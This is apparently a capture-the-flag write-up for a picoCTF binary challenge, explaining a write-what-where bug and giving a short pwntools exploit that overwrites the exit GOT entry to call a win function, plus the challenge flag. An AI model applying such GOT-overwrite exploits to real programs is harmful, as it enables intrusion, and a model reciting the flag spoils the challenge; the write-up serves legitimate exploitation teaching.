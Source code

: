 # 🔑 Write-Up

We have a trivial write-what-where, using that we can overwrite one of the GOT entries in order to get the program to call the function that we want, in this case `win`.


```python
from pwn import *

context.binary = "./auth"
p = process()

p.sendline(hex(context.binary.got["exit"]).encode("ascii"))
p.sendline(hex(context.binary.functions["win"].address).encode("ascii"))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_7a9e7634}
```